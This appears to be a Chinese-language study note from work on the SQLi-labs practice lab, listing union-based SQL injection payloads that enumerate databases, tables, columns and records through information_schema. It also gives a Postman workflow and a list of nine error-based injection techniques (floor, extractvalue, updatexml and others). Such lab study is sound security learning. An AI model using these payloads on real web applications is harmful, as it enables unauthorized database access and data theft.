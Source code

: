 爆数据库
`/Less-1/?id=2' and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata`

找表名字
运用group_concat()函数
`/Less-1/?id=2' and 1=2 union  select 1,group_concat(table_name),@@basedir  from  information_schema.tables where table_schema="数据库名"-- -`

找字段名
`/Less-1/?id=2' and 1=2 union select  1,group_concat(column_name),@@basedir  from information_schema.columns  where table_name="表名"-- -`

爆记录
`/Less-1/?id=2' and 1=2 union select 1,group_concat(id,email_id),3  from 表名-- -`

查看内容
`/Less-1/?id=2' and 1=2 union select 1,group_concat(id),group_concat(email_id)  from 表名-- -`

```
group_concat(column_name) from information_schema.columns where table_name='student'#&passwd=&Submit=Submit
```

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)information_schema

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)数据库查询

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)union联合查询流程

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)注释

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)mysql函数

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)mysql函数1

### postman操作

在firefox的相关网页打开网络，刷新网页找到api，打开postman按要求输入get或post等传输方式与地址，新建key：id，在value中执行语句。展示的效果与在浏览器网址输入类似，但更为清晰。

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)示例

### sql注入

#### 报错注入十大方法

```
1.floor() 　　如：select * from test where id=1 and (select 1 from (select  count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
2.extractvalue()　　如：select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
3.updatexml()　　如：select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
4.geometrycollection()　　如：select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
5.multipoint()　　如：select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
6.polygon()　　如：select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
7.multipolygon()　　如：select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
8.linestring()　　如：select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
9.multilinestring()　　如：select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```